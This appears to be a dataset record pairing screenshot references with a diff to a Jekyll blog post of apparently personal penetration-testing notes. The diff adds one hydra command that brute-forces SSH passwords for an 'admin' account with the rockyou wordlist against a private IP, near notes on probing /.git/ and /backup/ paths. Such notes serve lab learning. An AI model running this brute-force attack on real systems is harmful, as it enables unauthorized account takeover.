

Before and after one commit to cloudskim/cloudskim.github.io, a Jekyll site: the page built from _posts/2026-10-17-my-notes.md, in a window 1280 px wide and 900 px high, scrolled down 1602 px. Shown: the whole window, without its empty margins (148-1131 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2442 px from its top, so only the background shows below that.

Commit message:
Update _posts/2026-10-17-my-notes.md (via Pages CMS)

```diff
--- a/_posts/2026-10-17-my-notes.md
+++ b/_posts/2026-10-17-my-notes.md
@@ -39,9 +39,11 @@ Like IDOR vulnerability
 
 /robots.txt, /.git/, and /backup/
 
+for ssh login
+
+hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.49.158.247
 
 
-&nbsp;
 
 &nbsp;
 
```
